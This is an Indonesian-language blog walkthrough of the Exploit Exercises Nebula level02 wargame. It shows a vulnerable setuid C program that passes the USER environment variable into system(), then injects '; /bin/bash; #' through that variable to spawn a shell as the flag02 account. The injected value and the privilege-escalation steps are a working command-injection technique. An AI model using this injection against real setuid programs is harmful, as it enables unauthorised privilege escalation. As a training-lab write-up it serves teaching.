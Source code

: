 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-10T05:43:39+00:00"
description = "Security Wargames"
featured = "x44905647871.jpg"
featuredalt = "Nebula Level02"
featuredpath = "https://beeimg.com/images"
linktitle = ""
title = "Exploit Exercises - Nebula Level02"
type = "post"

+++
Dalam {{< url-link "level02" "https://exploit-exercises.com/nebula/level02/" "target">}} ini menginstruksikan kita untuk meninjau kode C yang rentan dan menemukan vektor serangannya. Program ini membahas kerentanan dari {{< url-link "tingkat sebelumnya" "https://muhammadzakyzulfiqor.xyz/article/nebula-level01/" "target">}} namun ada vektor baru.

Source code untuk referensinya disertakan di bawah ini:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    
    int main(int argc, char **argv, char **envp)
    {
    char *buffer;
    
    gid_t gid;
    uid_t uid;
    
    gid = getegid();
    uid = geteuid();
    
    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);
    
    buffer = NULL;
    
    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);
    
    system(buffer);
    }

Seperti yang Anda lihat, "echo" dipanggil oleh path absolutnya tetapi getenv("USER")) memanggil variabel lingkungan $USER. Seperti masalah di level01, variabel ini diatur dalam shell saat ini yang dapat dimanipulasi.

Mari kita modifikasi variabel $USER untuk memasukkan input yang berbeda.

    level02@nebula:/home/flag02$ echo ${USER}
    level02
    level02@nebula:/home/flag02$ USER="; /bin/bash; #"
    level02@nebula:/home/flag02$ echo ${USER}
    ; /bin/bash; #

Seperti yang dapat dilihat dalam kode di atas, saya memodifikasi variabel lingkungan USER yang menjadi berisi "; /bin/bash; #".

Titik  koma ditambahkan untuk menghentikan perintah saat ini dan memulai yang baru, yang memungkinkan kita menghentikan panggilan "echo" dan _spawn a shell_. Diakhir, saya menambahkan  sebuah _octothorp (#)_ untuk memberi komentar pada garis "is cool" yang akan menciptakan keluaran yang salah.

Mari kita jalankan flag02 dan amati hasilnya:

    level02@nebula:/home/flag02$ id
    uid=1003(level02) gid=1003(level02) groups=1003(level02)
    level02@nebula:/home/flag02$ ./flag02
    about to call system("/bin/echo ; /bin/bash; # is cool")
    
    flag02@nebula:/home/flag02$ id
    uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
    flag02@nebula:/home/flag02$ getflag
    You have successfully executed getflag on a target account

Dan yaps, trik ini berhasil. Tingkat ini menunjukkan bahaya penggunaan variabel lingkungan dalam script dan masukan pengguna yang dipercaya.

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/hfsHjJbE6J8?rel=0"></iframe></div></div>